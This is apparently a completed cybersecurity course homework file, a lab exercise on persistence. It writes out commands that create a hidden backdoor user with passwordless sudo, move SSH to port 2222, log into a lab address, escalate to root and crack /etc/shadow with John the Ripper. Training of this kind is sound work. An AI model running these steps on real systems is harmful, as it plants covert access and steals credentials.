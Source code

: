 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd -M sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 500 sysd

4. Give your secret user the same GID:
   - groupmod -g 500 sysd

5. Give your secret user full `sudo` access without the need for a password:
   - visudo - insert the following:sysd ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l 
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    sudo -s
    nano /etc/ssh/sshd_config
    port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - `sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su
    john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

